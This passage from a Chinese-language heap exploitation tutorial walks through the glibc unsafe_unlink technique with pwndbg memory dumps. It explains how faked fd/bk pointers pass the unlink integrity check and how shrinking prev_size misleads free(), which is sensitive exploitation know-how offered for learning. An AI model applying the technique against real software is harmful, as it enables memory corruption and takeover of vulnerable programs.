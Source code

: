 ```
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
pwndbg&gt; x/10gx 0x603010
0x603010:       0x0000000000000000      0x0000000000000000
0x603020:       0x0000000000602058      0x0000000000602060
0x603030:       0x0000000000000000      0x0000000000000000
0x603040:       0x0000000000000000      0x0000000000000000
0x603050:       0x0000000000000000      0x0000000000000000
```

好了,此时我们已经成功的伪造了我们fake chunk的fd和bk指针,程序注释说我们这样就可以成功bypass那两个条件,也就是P-&gt;FD-&gt;BK=P&amp;&amp;P-&gt;BK-&gt;FD=P了,这是为什么呢?

我们现在假设我们的fake_chunk的size已经设好了,并且他的fd=0x602058,bk=0x602060,那么

fake_chunk-&gt;fd-&gt;bk是多少呢?我们看一下

```
pwndbg&gt; x/10gx 0x602058
0x602058:       0x0000000000000000      0x00007ffff7dd2540
0x602068 :      0x0000000000000000      0x0000000000603010&lt;-bk
0x602078:       0x0000000000000000      0x0000000000000000
0x602088:       0x0000000000000000      0x0000000000000000
0x602098:       0x0000000000000000      0x0000000000000000
```

看到了吗,此时的fake_chunk-&gt;fd-&gt;bk=0x603010,还记得我们刚刚所说的吗,我们所伪造的fake_chunk就是0x603010

因此第一个条件fake_chunk-&gt;fd-&gt;bk=fake_chunk达成,同理我们康康第二个条件

```
pwndbg&gt; x/10gx 0x602060
0x602060 &lt;stderr@@GLIBC_2.2.5&gt;: 0x00007ffff7dd2540      0x0000000000000000
0x602070 &lt;chunk0_ptr&gt;:  0x0000000000603010      0x0000000000000000
0x602080:       0x0000000000000000      0x0000000000000000
0x602090:       0x0000000000000000      0x0000000000000000
0x6020a0:       0x0000000000000000      0x0000000000000000
```

同样的,我们成功达成了第二个条件,此时的fake_chunk也就是指向我们全局变量的chunk0_ptr已经可以bypass了,现在值得注意的是刚刚我们假设size已经设好了,但其实并没有

那么根据程序所说,假设我们可以溢出chunk0来自由的更改chunk1的内容,我们就可以通过更改chunk1的pre_size域来使得我们的chunk收缩以骗过malloc让他认为我们的chunk1的上一个chunk是从我们的fake chunk处开始的

emmmm,关于heap shrink,可以康康我之前的另一篇[文章](https://nightrainy.github.io/2019/07/25/chunk-extend-and-overlapping/)

拓展和收缩原理相同:)

好了,我们继续

```
36   uint64_t *chunk1_hdr = chunk1_ptr - header_size;
 ► 37   fprintf(stderr, "We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.n");
```
